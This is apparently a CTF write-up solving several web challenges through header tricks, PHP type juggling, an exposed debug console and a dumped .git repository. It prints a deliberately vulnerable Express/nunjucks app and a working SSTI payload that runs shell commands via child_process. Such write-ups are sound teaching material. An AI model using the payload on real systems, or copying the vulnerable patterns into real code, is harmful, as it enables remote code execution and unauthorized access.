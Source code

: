 Since the CTF isn't live now I can't deploy machines so I will share what I remember I used to solve the web challs.

### Sweet-Nothing
Description: What can be sweeter than doing nothing? The flag is right in front of you.
Solution: -
There were an Italian flag and things related to Italy in the index of the website.
So we change the `Accept-Language` Header to include `it-IT`.
```
Accept-Language: it-IT
```
We get a resopnse saying that the query `secret` is `spaghetti`. So we set the URL query as so along with the changed language header.
```
https://chall.web/?secret=spaghetti
```

### why-are-types-weird
Description: Jacob is making a simple website to test out his PHP skills. He is certain that his website has absolutely zero security issues.
Solution: - 
This was a PHP type juggling chall.
Upon viewing the html source of the index, we see that `source.php` is commented and upon visiting source.php we get the login.php source code.
It had a weak comparision in place.
Similar to below.
```php
<?php
if (password_hash($_GET['password'],'sha1') == "0") {
  header("Location: admin.php")
}
?>
```
So I went down to John Hammond's [ctf-katana](https://github.com/JohnHammond/ctf-katana#php) and pulled out some SHA1 magic hashes and their plaintext and used them as password along with "admin" as username.
In admin.php you can search for user based on ID, its basic Union Based SQLi to extract info from another table.

### debugzero
Description: Someone on the dev team fat fingered their keyboard, and deployed the wrong app to production. Try and find what went wrong. The flag is in a file called "flag.txt"
Solution: -
A html comment in the index read something like `John, how many times do I tell you to turn off debug mode in production.` So I immediately tried the most possible thing and that is `/console`. We could also fuzz directories using big.txt from dirb, we would have gotten it.
And the PIN to the locked console was present in `styles/style.css` which could be seen in HTML source.

### gitcha
Description: Simon is maintaining a personal portfolio website, along with a secret which no one else knows. Can you discover his secret?
Solution: -
The website had its `.git` exposed. I used `git-dumper` to dump it.
Checking up `robots.txt` reveals to us a `/supersecret/` which can be accessed only if a specific cookie is set. We can learn about this by reviewing the .git dump.
```node
const express = require("express");
const fs = require("fs");
const serveIndex = require("serve-index");
const cookieParser = require("cookie-parser");
const nunjucks = require("nunjucks");
const bodyParser = require("body-parser");

const { PrismaClient } = require("@prisma/client");
const prisma = new PrismaClient();

const app = express();

const checkAdmin = (req, res) => {
  if (req.cookies["SECRET_COOKIE_VALUE"] === "thisisahugesecret") {
    return true;
  }
  return false;
};

nunjucks.configure("views", {
  autoescape: true,
  express: app,
});

app.use(cookieParser());
app.use(express.static("public"));
app.use(bodyParser.urlencoded({ extended: true }));

app.use("/.git", express.static(".git/"), serveIndex(".git/", { icons: true }));

app.get("/robots.txt", (req, res) => {
  res.type("text/plain");
  res.send("User-agent: *\nDisallow: /.git/\nDisallow: /supersecret/");
});

app.get("/supersecret", async (req, res) => {
  if (checkAdmin(req, res)) {
    const results = await prisma.note.findMany();
    res.render("notes.html", { foo: "bar", notes: results });
  } else {
    res.redirect("/");
  }
});

app.get("/getnotedetails", async (req, res) => {
  if (checkAdmin(req, res)) {
    const { id } = req.query;
    const note = await prisma.note.findUnique({ where: { id: parseInt(id) } });
    res.send(
      nunjucks.renderString(`
      <div style="margin: 15px;">
        <h1 style="font-family: Roboto;">${note.title}</h1>
        <p>${note.content}</p>
      </div>
  `)
    );
  } else {
    res.redirect("/");
  }
});

app.post("/addnote", async (req, res) => {
  if (checkAdmin(req, res)) {
    await prisma.note.create({
      data: {
        title: req.body.title,
        content: req.body.content,
      },
    });
    res.status(200).send("Note added");
  } else {
    res.status(403).send("Forbidden");
  }
});

app.get("/viewsource", (req, res) => {
  if (checkAdmin(req, res)) {
    const data = fs.readFileSync("index.js", "utf8");
    res.type("text/javascript");
    res.send(`
        ${data}
    `);
  }
});

app.listen(8080, () => {
  console.log("Example app listening on port 8080!");
});
```
According to the above, we set cookie as `SECRET_COOKIE_VALUE=thisisahugesecret` which gives us access to the supersecret directory.
We can see that the `/getnotedetails` is vulnerable to SSTI. I used [this blog](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine) as reference.
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('cat flag.txt')")()}}
```
Thus creating a note with above payload as title/content and viewing the note gets us code execution via SSTI.

### where-are-the-cookies
?? I forgot this.

